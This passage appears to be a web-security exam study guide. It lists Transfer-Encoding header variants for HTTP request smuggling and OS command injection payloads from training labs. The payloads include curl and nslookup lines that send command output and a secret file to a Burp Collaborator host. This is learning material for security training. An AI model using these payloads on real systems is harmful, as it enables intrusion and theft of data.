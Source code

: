 ## Some Useful Bypasses  
```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked  
Transfer-Encoding: x  

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

Transfer-encoding: identity
Transfer-encoding: cow
```


# OS command injection
## Approach
**ATTENTION:** If you got the right answer with ```email=||curl+burp.oastify.com?c=`whoami`||``` payload **ON THE LABS** and you don't know any others - you will fail this step on exam. Maybe I am too stupid, but I failed my first exam attempt only because of this. I tried my payload (that worked for me on the lab) and it didn't work on exam. Please, learn that you can exfiltrate data as part of your burp collaborator subdomain, like: ```nslookup -q=cname $(cat /home/carlos/secret).burp.oastify.com``` payload, even, if you get only DNS callbacks.  
  
The place to find OS Injection is in **Submit Feedback** page, usually in email input, but, just in case, scan the other inputs too:  
![image](https://user-images.githubusercontent.com/58632878/224707077-4aa3f7e4-352a-4eb1-84b1-bbdcde4e5af7.png)  


## Labs
### 1. Blind OS command injection with time delays
```
email=x||ping+-c+10+127.0.0.1||
```

### 2. Blind OS command injection with output redirection
```
email=||whoami>/var/www/images/output.txt||
filename=output.txt
```

